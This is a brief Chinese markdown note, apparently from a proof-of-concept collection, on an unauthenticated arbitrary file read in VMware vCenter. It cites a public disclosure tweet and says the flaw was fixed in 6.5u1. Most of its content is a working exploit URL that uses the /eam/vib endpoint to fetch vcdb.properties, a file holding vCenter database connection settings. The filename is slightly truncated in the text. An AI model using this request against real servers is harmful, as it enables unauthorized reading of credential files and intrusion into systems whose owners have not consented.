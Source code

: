 # VMware vCenter未授权任意文件读取

### 原文链接

> https://twitter.com/ptswarm/status/1316016337550938122

在VMware vCenter中发现了一个未经身份验证的任意文件读取漏洞。VMware透露此漏洞已在6.5u1中修复，但未分配CVE

![img](.resource/VMware%20vCenter%E6%9C%AA%E6%8E%88%E6%9D%83%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96/media/640-20201014105633643.jpeg)



***\*POC\**:**

```
http://x.x.x.x/eam/vib?id=c:\programData\Vmware\vCenterServer\cfg\vmware-vpx\vcdb.properti
```